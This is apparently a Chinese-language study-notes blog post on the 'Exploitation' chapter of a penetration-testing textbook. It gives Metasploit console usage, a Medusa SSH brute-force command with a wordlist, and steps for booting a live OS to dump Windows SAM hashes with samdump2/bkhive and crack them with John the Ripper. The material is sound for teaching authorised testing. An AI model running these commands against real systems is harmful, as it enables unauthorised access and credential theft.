 CHAPTER4 Exploitation
--------------------------------------
1、渗透神器 **Metasploit**

基本用法：

```
msf> msfconsole
msf> search missing_patch_number (or CVE)
use exploit_name_and_path
msf> show payloads
msf> set payload path_to_payload
msf> show optionsA
msf> set option_name desired_option_input
msf> exploit
```

一份不错的教程：

Metasploit Unleashed [https://www.offensive-security.com/metasploit-unleashed/](https://www.offensive-security.com/metasploit-unleashed/)

2、在线各类服务密码破解

 - Medusa

```
medusa –h 192.168.18.132 –u ownedb –P /usr/share/john/password.lst –M ssh
```

 - THC Hydra [https://www.thc.org/thc-hydra/](https://www.thc.org/thc-hydra/)


3、系统密码破解神器 John the Ripper

本地Windows密码破解

  1. Shut down the target machine.
  
  2. Boot the target to Backtack or an alternate OS via a live CD or USB drive.
  
  3. Mount the local hard drive.

```
  mkdir /mnt/sda1
  mount /dev/sda1 /mnt/sda1
  cd /mnt/sda1/Windows/system32/config
```

<div align="center" markdown="1">
<img src="https://github.com/victor-infosec/victor-infosec.github.io/raw/master/_posts/books/The-Basics-of-Hacking-and-Penetration-Testing/5.png" alt="渗透测试流程5" height="50%" width="50%" />
</div>

  \4. Use Samdump2 and to extract the hashes.

```
  samdump2 system SAM > /tmp/hashes.txt
```

<div align="center" markdown="1">
<img src="https://github.com/victor-infosec/victor-infosec.github.io/raw/master/_posts/books/The-Basics-of-Hacking-and-Penetration-Testing/6.png" alt="渗透测试流程6" height="50%" width="50%" />
</div>

 Accessing the raw hashes on some Windows systems may require an extra step. Bkhive is a tool which allows you to extract the Syskey bootkey from the system hive. It may be necessary to use bkhive to extract the system key in order to fully expose the password hashes.

```
  bkhive system sys_key.txt
  samdump2 SAM sys_key.txt > /tmp/hash.txt
```

  \5. Use JtR to crack the passwords.

```
  john /tmp/hashes.txt --format=nt
```

 <div align="center" markdown="1">
<img src="https://github.com/victor-infosec/victor-infosec.github.io/raw/master/_posts/books/The-Basics-of-Hacking-and-Penetration-Testing/3.png" alt="渗透测试流程7" height="50%" width="50%" />
</div>
